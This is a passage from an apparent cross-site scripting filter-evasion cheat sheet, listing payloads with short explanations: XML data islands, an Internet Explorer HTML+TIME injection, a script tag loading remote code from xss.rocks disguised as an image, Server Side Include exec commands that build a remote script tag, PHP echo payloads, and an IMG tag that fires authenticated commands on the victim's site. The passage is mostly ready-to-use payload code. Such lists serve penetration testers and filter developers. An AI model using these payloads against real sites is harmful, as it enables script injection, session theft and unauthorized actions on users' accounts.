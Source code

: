 ```
    <XML SRC="xsstest.xml" ID=I></XML>     <SPAN DATASRC=#I DATAFLD=C DATAFORMATAS=HTML></SPAN>
```
 
### HTML+TIME in XML 
This attack only works in IE and remember that you need to be between HTML and BODY tags for this to work:
 
```
    <HTML><BODY>     <?xml:namespace prefix="t" ns="urn:schemas-microsoft-com:time">
    <?import namespace="t" implementation="#default#time2">     <t:set attributeName="innerHTML" to="XSS<SCRIPT DEFER>alert("XSS")</SCRIPT>">
    </BODY></HTML> 
```
 (This is how Grey Magic hacked Hotmail and Yahoo!)
 ### Assuming you can only fit in a few characters and it filters against `.js` {#assuming-you-can-only-fit-in-a-few-characters-and-it-filters-against-js}
 This attack allows you to rename your JavaScript file to an image as an
XSS vector: 
```
     <SCRIPT SRC="http://xss.rocks/xss.jpg"></SCRIPT>
```
 
### SSI (Server Side Includes) 
This requires SSI to be installed on the server to use this XSS vector. I probably don\'t need to mention this, but if you can run commands on
the server there are no doubt much more serious issues: 
```
     <!--#exec cmd="/bin/echo '<SCR'"--><!--#exec cmd="/bin/echo 'IPT SRC=http://xss.rocks/xss.js></SCRIPT>'"-->
```
 
### PHP 
This attack requires PHP to be installed on the server. Again, if you can run any scripts remotely like this, there are probably much more
dire issues: 
```
     <? echo('<SCR)';
    echo('IPT>alert("XSS")</SCRIPT>'); ?> 
```
 ### IMG Embedded Commands
 This attack only works when this is injected (like a web-board) in a web
page behind password protection and that password protection works with other commands on the same domain. This can be used to delete users, add
users (if the user who visits the page is an administrator), send credentials elsewhere, etc. This is one of the lesser used but more
useful XSS vectors: 
```
     <IMG SRC="http://www.thesiteyouareon.com/somecommand.php?somevariables=maliciouscode">
```
 